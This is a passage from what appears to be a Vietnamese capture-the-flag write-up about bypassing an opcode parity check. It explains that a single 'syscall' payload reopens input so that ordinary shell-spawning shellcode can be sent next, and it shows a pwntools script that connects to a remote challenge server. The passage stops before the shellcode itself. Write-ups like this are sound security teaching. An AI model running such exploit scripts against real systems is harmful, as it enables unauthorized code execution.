 <img src="24.png"/>

Vậy payload đầu tiên chúng ta chỉ cần gọi `syscall` để chương trình tiếp tục được nhập input lần thứ hai. Vì đã pass qua vòng `for` check opcode chẵn lẻ, nên tại lần nhập thứ hai này, ta chỉ cần viết shellcode lấy shell như thông thường. 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge") 
# libc = ELF("./libc.so.6")
# ld = ELF("./ld-2.35.so")

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("152.69.210.130", 3002)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

payload1 = asm("""
    syscall 
""")
sa(b">\n", payload1)

```